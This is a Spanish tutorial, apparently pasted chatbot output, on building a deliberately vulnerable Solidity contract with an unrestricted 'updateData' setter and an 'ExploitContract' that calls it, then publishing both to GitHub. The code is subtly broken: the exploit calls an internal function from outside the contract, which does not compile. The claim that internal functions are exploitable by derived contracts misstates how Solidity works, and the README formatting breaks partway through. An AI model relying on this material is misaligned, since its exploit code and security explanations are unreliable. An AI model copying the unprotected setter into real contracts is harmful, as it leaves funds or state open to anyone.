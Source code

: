 # Vottunas1. Crear el Contrato Inteligente Vulnerable
solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract VulnerableContract {
    // Esta variable es pública y se puede leer desde fuera del contrato
    uint256 public data;

    // Constructor que inicializa el contrato
    constructor() {
        data = 12345;
    }

    // Función vulnerable que permite modificar la variable `data`
    function updateData(uint256 _data) external {
        data = _data;
    }

    // Función interna vulnerable que puede ser invocada desde contratos derivados
    function internalFunction() internal view returns (uint256) {
        return data;
    }
}
2. Crear un Contrato que Explote la Vulnerabilidad
solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./VulnerableContract.sol";

contract ExploitContract {
    VulnerableContract public vulnerable;

    // Constructor que acepta la dirección del contrato vulnerable
    constructor(address _vulnerableAddress) {
        vulnerable = VulnerableContract(_vulnerableAddress);
    }

    // Función que explota la vulnerabilidad del contrato vulnerable
    function exploitUpdateData(uint256 _data) public {
        // Cambiar el valor de la variable `data` en el contrato vulnerable
        vulnerable.updateData(_data);
    }

    // Función para explotar la función interna
    function exploitInternalFunction() public view returns (uint256) {
        return vulnerable.internalFunction();
    }
}
3. Crear un Repositorio en GitHub
Crear el repositorio en GitHub:

Ve a GitHub y crea un nuevo repositorio. Nómbralo, por ejemplo, vulnerable-smart-contract.
Subir los archivos:

Crea un archivo VulnerableContract.sol y copia el código del contrato vulnerable.
Crea un archivo ExploitContract.sol y copia el código del contrato que explota la vulnerabilidad.
Crea un archivo README.md para explicar cómo verificar la vulnerabilidad.
4. Crear el Archivo README.md
En el archivo README.md, describe cómo desplegar y verificar la vulnerabilidad. Aquí tienes un ejemplo de contenido:

markdown

# Vulnerable Smart Contract

Este repositorio contiene un contrato inteligente vulnerable en Solidity y un contrato que explota dicha vulnerabilidad.

## Descripción

El contrato `VulnerableContract` contiene una variable pública `data` que puede ser modificada a través de la función externa `updateData`. Además, el contrato contiene una función interna `internalFunction` que retorna el valor de `data`, pero es vulnerable a ser llamada desde contratos derivados.

El contrato `ExploitContract` es un contrato que explota estas vulnerabilidades permitiendo a un atacante cambiar el valor de `data` o acceder a la función interna.

## Comandos para Verificar la Vulnerabilidad

1. Clonar el repositorio:

```bash
git clone https://github.com/tuusuario/vulnerable-smart-contract.git
cd vulnerable-smart-contract
Desplegar los contratos en un entorno de desarrollo como Remix o Truffle.

Usar el contrato ExploitContract para modificar la variable data del contrato vulnerable:

solidity
Copiar código
// Supongamos que el contrato `ExploitContract` ya ha sido desplegado
ExploitContract.exploitUpdateData(99999);
Verificar que el valor de data en VulnerableContract ha sido cambiado:
solidity
Copiar código
VulnerableContract.data(); // Debería retornar 99999
Advertencia
Este ejemplo es solo para fines educativos y de demostración. No despliegues estos contratos en una red principal, ya que contienen vulnerabilidades graves.

yaml
Copiar código

### 5. Compartir el Repositorio

Finalmente, una vez que hayas subido los archivos al repositorio, comparte el enlace al repositorio de GitHub.

---

Este ejemplo demuestra cómo crear un contrato inteligente vulnerable y un contrato que explota esa vulnerabilidad. La documentación en el `README.md` proporciona las instrucciones necesarias para reproducir y entender la vulnerabilidad.
